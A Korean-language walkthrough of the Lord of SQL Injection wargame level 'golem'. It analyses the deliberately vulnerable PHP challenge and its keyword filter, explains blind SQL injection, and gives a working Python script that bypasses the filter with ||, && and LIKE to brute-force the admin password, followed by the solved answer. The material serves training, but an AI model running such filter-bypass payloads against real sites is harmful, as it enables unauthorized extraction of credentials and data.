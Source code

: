 # Lord of SQL Injection No.11 - golem

## 문제 출제 의도

`and`, `or`, `substr(`, `=`을 대소문자 구분 없이 포함하지 않고 Blind SQL Injection을 하여 `pw`를 알아낼 수 있는지 확인한다.

## 소스 코드 분석

golem 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
```
* GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, **대소문자 구분 없이** pw에 `or`, `and`, `substr(`, `=` 이 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
```
* 받은 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* `$result['id']`에 "0"을 제외한 어떤 값이든 들어 있으면 응답에 "Hello "와 `$result[id]` 값을 붙인 문자열이 포함된다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 pw와 GET방식으로 전달받은 pw가 같음'이다. 즉, 실제 데이터베이스에 저장된 pw를 알아내서 전달해야 한다.

## addslashes
```php
string addslashes ( string $str )
```
* addslashes 함수는 데이터베이스 질의 등에서 처리할 필요가 있는 문자(홑따옴표('), 겹따옴표("), 백슬래시(\), NUL(NULL 바이트)) 앞에 백슬래시를 붙인 문자열을 반환한다.

* 따라서 `addslashes($_GET[pw])` 는 `$_GET[id]`에서 문자열 `홑따옴표('), 겹따옴표("), 백슬래시(\), NUL(NULL 바이트)`를 찾아 백슬래시를 앞에 붙인 문자열을 반환한다.

* php의 addslashes 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.

* [PHP: addslashes - Manual](http://php.net/manual/kr/function.addslashes.php)

-----

## Blind SQL Injection

11번 golem 문제같은 경우 실제 pw값을 알아내야 한다. 이때 화면에 "Hello "와 `$result[id]` 값을 붙인 문자열이 출력되었는지 안 되었는지 여부에 따라 조작한 SQL문의 조건절이 참인지 거짓인지 알아낼 수 있다.

이처럼 SQL Injection이 가능하고 조작한 SQL문의 조건절이 참인지 거짓인지를 구분할 수 있는 경우 원하는 데이터를 하나씩 알아낼 수 있는데, 이를 Blind SQL Injection 이라고 한다.

-----

## Solution
    
1. SUBSTRING 함수, LIKE 활용

    ```python
    import urllib.request
    from urllib.parse import quote

    key = ""

    pwlen = 0

    for i in range(1, 20):
        url = "http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw="
        data = "' || id LIKE 'admin' && length(pw) LIKE '{}'#".format(str(i)) # = 을 못쓰므로 LIKE 로 수정
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)

        re.add_header(
            "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
        re.add_header(
            "Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81"
        )

        req = urllib.request.urlopen(re)

        if str(req.read()).find("Hello admin") != -1:
            pwlen = i
            print('pw length : ' + str(pwlen))
            break

    for i in range(1, pwlen + 1):
        for j in range(32, 127):
            if (chr(j) == '%' or chr(j) == '_'): # LIKE 를 사용하므로 와일드카드인 %와 _는 제외
                continue
            url = "http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw="
            data = "' || id LIKE 'admin' && substring(pw, 1, {}) LIKE '{}'#".format( # or, and 를 ||, && 로 수정, substr( 을 substring(, = 을 LIKE 로 수정
                str(i), key + chr(j))
            print(data)
            data = quote(data)
            re = urllib.request.Request(url + data)

            re.add_header(
                "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
            re.add_header(
                "Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81"
            )

            req = urllib.request.urlopen(re)

            if str(req.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ```

    이러한 코드를 실행하면 결과값으로 88e3137f 를 출력한다.
    이를 GET방식으로 pw의 값으로 전달하면 풀린다.
    
    ```
    http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw=88e3137f
    ```